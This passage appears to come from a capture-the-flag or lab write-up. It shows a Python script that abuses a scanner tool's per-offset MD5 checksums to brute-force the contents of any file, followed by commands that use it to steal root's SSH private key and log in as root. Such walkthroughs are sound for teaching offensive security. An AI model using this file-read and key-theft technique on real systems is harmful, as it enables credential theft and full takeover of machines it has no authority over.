 ```python
from hashlib import md5
import sys, subprocess, string

assert len(sys.argv) == 2, "Please supply a file path"

hashes, known = [], []

# Collect a checksum at each offset
end = 1
while True:
  proc = ['/opt/scanner/scanner', '-p', '-s', '_', '-c', sys.argv[1], '-l', str(end)]
  try:
    out = subprocess.check_output(proc)
    hashes.append(bytes.fromhex(out[-33:].decode()))
    end += 1
  except:
    break

# Crack each hash
charset = string.printable.encode()
for checksum in hashes:
  for char in charset:
    if md5(bytes([*known, char])).digest() == checksum:
      known.append(char)
      break

print(bytes(known).decode(), end='')
```
{:file="read.py"}

With this script, we were able to fetch the root user's SSH private key at `/root/.ssh/id_rsa`{:.filepath}. Then we simply used the key to login as root via SSH.

```bash
# Recover root SSH private key + login as root
scp read.py greg@$rhost:/tmp/read.py
ssh greg@$rhost "python3 /tmp/read.py /root/.ssh/id_rsa 2>/dev/null" | tee root_id_rsa
chmod 600 root_id_rsa && ssh -i root_id_rsa root@$rhost
```
{:file="bryan@redteam ➤ zsh" .nolineno}
